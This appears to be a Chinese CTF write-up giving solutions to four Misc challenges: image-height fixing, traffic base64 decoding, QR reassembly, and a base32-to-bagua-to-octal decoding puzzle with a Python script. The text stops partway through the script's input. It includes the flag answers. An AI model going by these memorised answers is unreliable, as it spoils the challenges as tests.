

# 2023安全个人赛
## Misc
### 1、IHDR
修改图片高度得到flag

ctfshow{hello_67373}
### 2、黑客的机密信息
分析流量

base64解码

flag{Inf0rm4ti0n53curity}
### 3、我跟你拼了
拼出二维码，扫描得到flag
flag{b9f32f7f-f30c-408f-b0bd-64c03a60e915}
### 4、Ezimage
```
4KMLHYUYWTRJRNPCTCZOFGFQ4KMLLYUYWLRJRNPCTC2OFGFT4KMLJYUYW3RJRMXCTC26FGFV4KMLFYUYWTRJRM7CTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGFS4KMLLYUYWTRJRM7CTC2OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC26FGFS4KMLBYUYWXRJRMXCTC26FGFU4KMLHYUYWTRJRNXCTCZOFGFV4KMLLYUYWLRJRNHCTCZ6FGFT4KMLJYUYWXRJRMXCTCY6FGFX4KMLFYUYWHRJRM7CTCZ6FGFU4KMLLYUYWLRJRMXCTC3OFGFS4KMLBYUYWTRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWTRJRNPCTCZOFGFQ4KMLLYUYWLRJRNPCTC2OFGFT4KMLJYUYW3RJRMXCTC26FGFV4KMLFYUYWTRJRM7CTCZ6FGFU4KMLNYUYWLRJRNXCTCYOFGFS4KMLFYUYWHRJRM7CTC2OFGFU4KMLFYUYW7RJRMHCTCZOFGFX4KMLHYUYWPRJRNHCTC26FGFS4KMLBYUYWXRJRMXCTC26FGFU4KMLHYUYWTRJRNXCTCZOFGFV4KMLLYUYWLRJRNHCTCZ6FGFT4KMLJYUYW3RJRMXCTC3OFGFT4KMLFYUYWLRJRNPCTCZ6FGFU4KMLNYUYWLRJRNXCTCZOFGFS4KMLPYUYWPRJRM7CTC2OFGFW4KMLFYUYW3RJRM7CTCZOFGFS4KMLLYUYWPRJRNHCTC3OFGFS4KMLNYUYWLRJRMXCTC36FGFT4KMLHYUYWXRJRMHCTCZOFGFV4KMLPYUYWLRJRM7CTCZOFGFT4KMLJYUYWTRJRMXCTC36FGFX4KMLFYUYWTRJRMPCTCZ6FGFU4KMLNYUYWLRJRNXCTCYOFGFS4KMLFYUYWHRJRM7CTC2OFGFU4KMLFYUYW7RJRMHCTCZOFGFX4KMLHYUYWPRJRNHCTC26FGFS4KMLBYUYWXRJRMXCTC26FGFU4KMLHYUYWTRJRNXCTCZOFGFV4KMLLYUYWLRJRNHCTCZ6FGFT4KMLJYUYWXRJRMXCTC36FGFR4KMLFYUYW3RJRM7CTCZ6FGFU4KMLPYUYWLRJRNPCTC26FGFS4KMLDYUYWHRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWTRJRNPCTCZOFGFX4KMLDYUYWLRJRNXCTCZ6FGFT4KMLJYUYW7RJRMXCTC26FGFV4KMLFYUYWHRJRMPCTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGF$4KMLLYUYWTRJRM7CTC2OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLJYUYWXRJRMXCTCZOFGFS4KMLFYUYWHRJRNHCTCZ6FGFV4KMLBYUYWLRJRNXCTCYOFGFS4KMLFYUYWDRJRM7CTC2OFGFX4KMLFYUYWHRJRMHCTCZOFGFW4KMLDYUYWPRJRNHCTC26FGFS4KMLHYUYWPRJRMXCTC36FGFV4KMLHYUYWTRJRNPCTCZOFGFQ4KMLLYUYWLRJRNPCTC2OFGFT4KMLJYUYW3RJRMXCTC26FGFV4KMLFYUYWTRJRM7CTCZ6FGFV4KMLBYUYWLRJRMHCTC36FGFS4KMLLYUYWLRJRM7CTC2OFGFX4KMLFYUYWLRJRNHCTCZOFGFW4KMLDYUYWPRJRNHCTC26FGFS4KMLBYUYWXRJRMXCTC26FGFU4KMLHYUYWTRJRNXCTCZOFGFV4KMLLYUYWLRJRNHCTCZ6FGFT4KMLJYUYW3RJRMXCTC3OFGFQ4KMLFYUYWLRJRMPCTCZ6FGFU4KMLJYUYWLRJRN7CTCYOFGFS4KMLPYUYWPRJRM7CTC2OFGFV4KMLFYUYWLRJRMXCTCZOFGFR4KMLJYUYWPRJRNPCTCYOFGFS4KMLNYUYWDRJRMXCTCZOFGFQ4KMLHYUYWTRJRN7CTCZOFGFR4KMLBYUYWLRJRNXCTCY6FGFT4KMLJYUYWXRJRMXCTCZ6FGFT4KMLFYUYW7RJRNPCTCZ6FGFU4KMLLYUYWLRJRMXCTCZOFGFS4KMLDYUYWTRJRM7CTC26FGFQ4KMLFYUYW3RJRMHCTCZOFGFS4KMLBYUYWPRJRNHCTC3OFGFS4KMLNYUYWPRJRMXCTCZOFGFV4KMLHYUYWTRJRNXCTCZOFGFW4KMLFYUYWLRJRN7CTCZ6FGFT4KMLJYUYW3RJRMXCTCZOFGFW4KMLFYUYWDRJRN7CTCZ6FGFU4KMLNYUYWLRJRM7CTCYOFGFS4KMLDYUYW3RJRM7CTC26FGFQ4KMLFYUYWXRJRN7CTCZOFGFT4KMLFYUYWPRJRNHCTC2OFGFS4KMLPYUYW7RJRMXCTC2OFGFR4KMLHYUYWTRJRNPCTCZOFGFS4KMLFYUYWLRJRMPCTC2OFGFT4KMLLYUYWDRJRMXCTC3OFGFQ4KMLFYUYWLRJRMHCTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGFS4KMLLYUYWTRJRM7CTC2OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC26FGFS4KMLPYUYWHRJRMXCTC3OFGFT4KMLHYUYWTRJRN7CTCZOFGFV4KMLLYUYWLRJRMPCTCY6FGFT4KMLJYUYWXRJRMXCTCYOFGFV4KMLFYUYWXRJRNHCTCZ6FGFU4KMLNYUYWLRJRNPCTC26FGFS4KMLJYUYWPRJRM7CTC2OFGFV4KMLFYUYW7RJRMPCTCZOFGFW4KMLHYUYWPRJRNHCTC36FGFS4KMLLYUYWXRJRMXCTCY6FGFR4KMLHYUYWTRJRNPCTCZOFGFS4KMLFYUYWLRJRMPCTC2OFGFT4KMLLYUYWDRJRMXCTC3OFGFQ4KMLFYUYWLRJRMHCTCZ6FGFU4KMLLYUYWLRJRMXCTCZOFGFS4KMLDYUYWTRJRM7CTC26FGFQ4KMLFYUYW3RJRMHCTCZOFGFS4KMLBYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLJYUYW3RJRMXCTCZOFGFW4KMLFYUYWDRJRN7CTCZ6FGFU4KMLNYUYWLRJRM7CTCYOFGFS4KMLDYUYW3RJRM7CTC2OFGFW4KMLFYUYWLRJRNXCTCZOFGFQ4KMLPYUYWPRJRNHCTC3OFGFS4KMLHYUYWDRJRMXCTCY6FGFW4KMLHYUYWXRJRMHCTCZOFGFV4KMLPYUYWLRJRM7CTCZOFGFT4KMLJYUYWTRJRMXCTC36FGFX4KMLFYUYWTRJRMPCTCZ6FGFU4KMLLYUYWLRJRMXCTCZOFGFS4KMLDYUYWTRJRM7CTC26FGFQ4KMLFYUYW3RJRMHCTCZOFGFS4KMLBYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLJYUYW3RJRMXCTC3OFGFQ4KMLFYUYWLRJRMPCTCZ6FGFU4KMLJYUYWLRJRN7CTCYOFGFS4KMLPYUYWPRJRM7CTC2OFGFV4KMLFYUYWLRJRMXCTCZOFGFR4KMLJYUYWPRJRNPCTCYOFGFS4KMLNYUYWDRJRMXCTCZOFGFQ4KMLHYUYWTRJRNXCTCZOFGFW4KMLBYUYWLRJRMXCTCY6FGFT4KMLJYUYWTRJRMXCTC36FGFQ4KMLFYUYW7RJRM7CTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGFS4KMLLYUYWTRJRM7CTC2OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC26FGFS4KMLPYUYWHRJRMXCTC3OFGFT4KMLHYUYWTRJRN7CTCZOFGFV4KMLLYUYWLRJRMPCTCY6FGFT4KMLJYUYWXRJRMXCTCYOFGFV4KMLFYUYWXRJRNHCTCZ6FGFU4KMLNYUYWLRJRNPCTC26FGFS4KMLJYUYWPRJRM7CTC26FGFQ4KMLFYUYWDRJRN7CTCZOFGFV4KMLFYUYWPRJRNHCTC36FGFS4KMLFYUYWTRJRMXCTC3OFGFR4KMLHYUYWTRJRNXCTCZOFGFS4KMLNYUYWLRJRMHCTC36FGFT4KMLJYUYW3RJRMXCTCZ6FGFQ4KMLFYUYWHRJRNXCTCZ6FGFV4KMLBYUYWLRJRNPCTC36FGFS4KMLHYUYWLRJRM7CTC2OFGFU4KMLFYUYW7RJRN7CTCZOFGFU4KMLDYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLJYUYWXRJRMXCTCZOFGFS4KMLFYUYWHRJRNHCTCZ6FGFV4KMLBYUYWLRJRNXCTCYOFGFS4KMLFYUYWDRJRM7CTC2OFGFX4KMLFYUYWHRJRMHCTCZOFGFW4KMLDYUYWPRJRNHCTC26FGFS4KMLHYUYWPRJRMXCTC36FGFV4KMLHYUYWTRJRNPCTCZOFGFQ4KMLLYUYWLRJRNPCTC2OFGFT4KMLJYUYW3RJRMXCTC26FGFV4KMLFYUYWTRJRM7CTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGFS4KMLLYUYWTRJRM7CTC2OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLJYUYW7RJRMXCTCY6FGFQ4KMLFYUYW3RJRMPCTCZ6FGFU4KMLLYUYWLRJRM7CTCZ6FGFS4KMLPYUYWXRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWTRJRNPCTCZOFGFS4KMLFYUYWLRJRMPCTC2OFGFT4KMLLYUYWDRJRMXCTC3OFGFQ4KMLFYUYWLRJRMHCTCZ6FGFU4KMLNYUYWLRJRMXCTC3OFGFS4KMLBYUYW7RJRM7CTC2OFGFW4KMLFYUYWPRJRMHCTCZOFGFR4KMLNYUYWPRJRNHCTC26FGFS4KMLDYUYW7RJRMXCTCY6FGFT4KMLHYUYWTRJRNPCTCZOFGFS4KMLNYUYWLRJRMHCTC2OFGFT4KMLJYUYW3RJRMXCTC3OFGFT4KMLFYUYWLRJRNPCTCZ6FGFU4KMLNYUYWLRJRNXCTCZOFGFS4KMLPYUYWPRJRM7CTC2OFGFV4KMLFYUYWLRJRMXCTCZOFGFR4KMLJYUYWPRJRNPCTCYOFGFS4KMLNYUYWDRJRMXCTCZOFGFQ4KMLHYUYWTRJRNXCTCZOFGFS4KMLLYUYWLRJRNPCTC2OFGFT4KMLJYUYWTRJRMXCTC36FGFQ4KMLFYUYWPRJRMXCTCZ6FGFU4KMLLYUYWLRJRMXCTCZOFGFS4KMLDYUYWTRJRM7CTC26FGFQ4KMLFYUYW3RJRMHCTCZOFGFS4KMLBYUYWPRJRNHCTC@6FGFS4KMLLYUYW7RJRMXCTCY6FGFU4KMLHYUYWTRJRNPCTCZOFGFX4KMLJYUYWLRJRN7CTCZOFGFT4KMLJYUYWXRJRMXCTCZOFGFS4KMLFYUYWHRJRNHCTCZ6FGFV4KMLBYUYWLRJRNXCTCYOFGFS4KMLFYUYWDRJRM7CTC2OFGFW4KMLFYUYW3RJRM7CTCZOFGFS4KMLLYUYWPRJRNHCTC3OFGFS4KMLNYUYWLRJRMXCTC36FGFT4KMLHYUYWTRJRNPCTCZOFGFS4KMLFYUYWLRJRMPCTC2OFGFT4KMLLYUYWDRJRMXCTC3OFGFQ4KMLFYUYWLRJRMHCTCZ6FGFU4KMLPYUYWLRJRMPCTCYOFGFS4KMLNYUYWHRJRM7CTC2OFGFV4KMLFYUYWPRJRM7CTCZOFGFX4KMLLYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLLYUYWDRJRMXCTCYOFGFX4KMLFYUYWXRJRMXCTCZ6FGFU4KMLPYUYWLRJRMXCTC2OFGFS4KMLNYUYWHRJRM7CTC2OFGFV4KMLFYUYWLRJRMXCTCZOFGFR4KMLJYUYWPRJRNPCTCYOFGFS4KMLNYUYWDRJRMXCTCZOFGFQ4KMLHYUYWTRJRNXCTCZOFGFW4KMLBYUYWLRJRMXCTCY6FGFT4KMLJYUYWTRJRMXCTC36FGFQ4KMLFYUYW7RJRM7CTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGFS4KMLLYUYWTRJRM7CTC2OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC26FGFS4KMLPYUYWHRJRMXCTC3OFGFT4KMLHYUYWTRJRN&CTCZOFGFV4KMLLYUYWLRJRMPCTCY6FGFT4KMLJYUYWXRJRMXCTCZOFGFS4KMLFYUYWHRJRNHCTCZ6FGFV4KMLBYUYWLRJRNXCTCYOFGFS4KMLFYUYWDRJRM7CTC2OFGFW4KMLFYUYWLRJRNXCTCZOFGFQ4KMLPYUYWPRJRNHCTC3OFGFS4KMLHYUYWDRJRMXCTCY6FGFW4KMLHYUYWTRJRNPCTCZOFGFQ4KMLLYUYWLRJRNPCTC2OFGFT4KMLJYUYW3RJRMXCTC26FGFV4KMLFYUYWTRJRM7CTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGFS4KMLLYUYWTRJRM7CTC2OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC26FGFS4KMLBYUYWXRJRMXCTC26FGFU4KMLHYUYWTRJRNXCTCZOFGFV4KMLLYUYWLRJRNHCTCZ6FGFT4KMLJYUYWXRJRMXCTCYOFGFV4KMLFYUYWXRJRNHCTCZ6FGFU4KMLNYUYWLRJRNPCTC26FGFS4KMLJYUYWPRJRM7CTC2OFGFV4KMLFYUYWDRJRNPCTCZOFGFV4KMLJYUYWPRJRNHCTC3OFGFS4KMLLYUYWXRJRMXCTC2OFGFT4KMLHYUYWTRJRNXCTCZOFGFS4KMLNYUYWLRJRMHCTC36FGFT4KMLJYUYW3RJRMXCTCZ6FGFQ4KMLFYUYWHRJRNXCTCZ6FGFU4KMLLYUYWLRJRMHCTC26FGFS4KMLLYUYWTRJRM7CTC2OFGFW4KMLFYUYWXRJRNPCTCZOFGFU4KMLHYUYWPRJRNHCTC26FGFS4KMLFYUYWLRJRMXCTCY6FGFU4KMLHYUYWXRJRMHCTCZOFGFW4KMLBYUYWLRJRMXCTCYOFGFT4KMLJYUYW3RJRMXCTC3OFGFT4KMLFYUYWLRJRNPCTCZ6FGFU4KMLNYUYWLRJRNXCTCZOFGFS4KMLPYUYWPRJRM7CTC26FGFQ4KMLFYUYWXRJRN7CTCZOFGFT4KMLFYUYWPRJRNHCTC2OFGFS4KMLPYUYW7RJRMXCTC2OFGFR4KMLHYUYWTRJRNPCTCZOFGFS4KMLFYUYWLRJRMPCTC2OFGFT4KMLLYUYWDRJRMXCTC3OFGFQ4KMLFYUYWLRJRMA=
```
好像是一串字符的重复，把第一串“4KMLHYUYWTRJRNPCTCZOFGFQ”放到cybercheif解一下，是base32，解出是“☳☴☵☲☰”，应该是八卦，但是整体放进去解不出，因为base32的码表是“A-Z2-7=”，所以里面肯定有不在码表内的字符，可以使用词频分析.py,找到了三个特殊字符“@  &  $”，肯定是被替换了，现在要找到替换成了什么

将内容粘贴到excel，分列处理数据，逐个查三个特殊符号，再对照未修改部分，可以知道，$对应的是S，@替换为2，&对应的是7或X


分别带入原文，再次解码得到
```
☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☱☷☲☱☳☳☴☵☲☲☶☲☰☴☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☵☰☲☵☷☲☳☲☳☴☴☲☷☷☲☴☱☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☷☲☱☰☲☶☱☳☴☵☲☳☳☲☷☵☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☵☰☲☰☷☲☵☲☳☴☷☲☲☴☲☶☱☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☷☲☱☰☲☶☱☳☴☵☲☳☳☲☷☵☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☵☰☲☵☷☲☳☲☳☴☴☲☷☷☲☴☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☵☰☲☵☷☲☳☲☳☴☴☲☷☷☲☴☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☵☰☲☰☷☲☵☲☳☴☷☲☲☴☲☶☱☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☵☰☲☵☷☲☳☲☳☴☴☲☷☷☲☴☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☷☲☱☰☲☶☱☳☴☵☲☳☳☲☷☵☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☷☲☱☰☲☶☱☳☴☵☲☳☳☲☷☵☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☴☵☲☱☷☲☱☳☳☴☵☲☲☶☲☰☴☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☲☵☲☵☴☳☴☴☲☷☰☲☳☲☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☵☷☲☱☴☳☴☵☲☷☴☲☷☲☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☷☲☱☰☲☶☱☳☴☵☲☳☳☲☷☵☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☵☰☲☰☷☲☵☲☳☴☷☲☲☴☲☶☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☵☰☲☵☷☲☳☲☳☴☴☲☷☷☲☴☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰
```
八卦解码，代码如下：
```
# -*- coding: utf-8 -*-
# 8进制转文本
def bArrToStr(bArr):
    nByte = b''
    for b in bArr:
        nByte += chr(int(b, base=8)).encode('raw_unicode_escape')
    return bytes.decode(nByte)
# 八卦符转八进制
def to8bArr(baguaStr):
    code = {'☰': '0',  # 乾
            '☱': '1',  # 兑
            '☲': '2',  # 离
            '☳': '3',  # 震
            '☴': '4',  # 巽
            '☵': '5',  # 坎
            '☶': '6',  # 艮
            '☷': '7',  # 坤
             }
    bArr = []
    temp = []
    # 把八卦符转为8进制数字
    for s in baguaStr:
        temp.append(code[s])
    tempStr = ''
    # 数字3个一组 组合回八进制
    for i in range(len(temp)):
        tempStr += temp[i]
        if i % 3 == 2:
            bArr.append('0o'+tempStr)
            tempStr = ''
    print(bArrToStr(bArr))
to8bArr('☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☱☷☲☱☳☳☴☵☲☲☶☲☰☴☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☵☰☲☵☷☲☳☲☳☴☴☲☷☷☲☴☱☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☷☲☱☰☲☶☱☳☴☵☲☳☳☲☷☵☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☵☰☲☰☷☲☵☲☳☴☷☲☲☴☲☶☱☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☷☲☱☰☲☶☱☳☴☵☲☳☳☲☷☵☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☳☲☲☵☳☴☶☲☶☲☲☷☳☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☵☰☲☵☷☲☳☲☳☴☴☲☷☷☲☴☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☵☰☲☵☷☲☳☲☳☴☴☲☷☷☲☴☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☶☲☶☰☲☲☱☳☴☴☲☷☰☲☷☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☷☱☲☶☳☳☴☷☲☵☵☲☱☱☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☵☰☲☰☷☲☵☲☳☴☷☲☲☴☲☶☱☳☴☶☲☲☶☲☰☷☳☴☶☲☳☰☲☱☶☳☵☰☲☵☷☲☳☲☳☴☴☲☷☷☲☴☱☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☵☲☲☲☲☱☴☳☵☰☲☶☰☲☲☰☳☴☷☲☱☰☲☶☱☳☴☵☲☳☳☲☷☵☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳☴☵☲☰☵☲☵☴☳☴☶☲☵☵☲☴☳☳